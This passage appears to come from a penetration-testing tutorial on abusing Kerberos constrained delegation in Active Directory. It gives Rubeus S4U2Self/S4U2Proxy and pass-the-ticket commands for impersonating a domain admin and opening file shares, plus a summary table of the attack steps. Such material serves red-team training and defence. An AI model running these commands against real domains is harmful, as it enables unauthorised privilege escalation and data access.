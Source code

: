 This will request a service ticket for the **domain admin** using **S4U2Self**.

#### **3. Using S4U2Proxy to Request Service Tickets for Other Services**

Once you have a service ticket for the impersonated user, you can use **S4U2Proxy** to request tickets for other services (e.g., **CIFS** for file shares, **HTTP** for web services, etc.).

```powershell
# Use S4U2Proxy to request a ticket to access another service (e.g., CIFS)
Rubeus.exe s4u /user:ControlledAccount /impersonateuser:DomainAdmin /rc4:<NTLM Hash of Controlled Account> /domain:example.com /sid:S-1-5-21-<DomainSID> /targetservice:cifs /targetserver:TargetServer
```

In this step:
- `/targetservice`: The service you want to access on behalf of the user (e.g., **cifs** for file shares).
- `/targetserver`: The server hosting the service you want to access.

This command requests a ticket for the **CIFS** service on the specified server using the **domain admin** credentials.

#### **4. Using the Ticket to Access Services**

Now that you have the ticket, you can use it to access the specified service (e.g., a file share) as the impersonated user (e.g., the domain admin).

For example, to apply the ticket and access a file share:

```powershell
# Apply the ticket
Rubeus.exe ptt /ticket:<TicketFile>

# Access the file share (CIFS) as the impersonated domain admin
net use \\TargetServer\ShareName
```

You now have access to the file share or service as the impersonated domain admin.

---

### **Exploitation Summary**

1. **Identify accounts** with constrained delegation using **PowerView**.
2. Use **Rubeus** to exploit **S4U2Self** and impersonate a higher-privileged user (e.g., a domain admin).
3. Use **S4U2Proxy** to request tickets for other services (e.g., CIFS, HTTP) as the impersonated user.
4. Apply the tickets and access services as the higher-privileged user, thereby escalating your privileges.

---

### **Exploitation Example Flow**

| Step | Action                                                                                  | Tool      |
|------|------------------------------------------------------------------------------------------|-----------|
| 1    | Identify constrained delegation accounts (e.g., services with delegation enabled).       | PowerView |
| 2    | Dump the **TGT** of the controlled account (with constrained delegation).                | Rubeus    |
| 3    | Use **S4U2Self** to impersonate a domain admin (or other privileged user).               | Rubeus    |
| 4    | Use **S4U2Proxy** to request tickets to access other services as the impersonated user.  | Rubeus    |
| 5    | Apply the ticket and access the target service (e.g., file shares, HTTP).                | Rubeus    |

---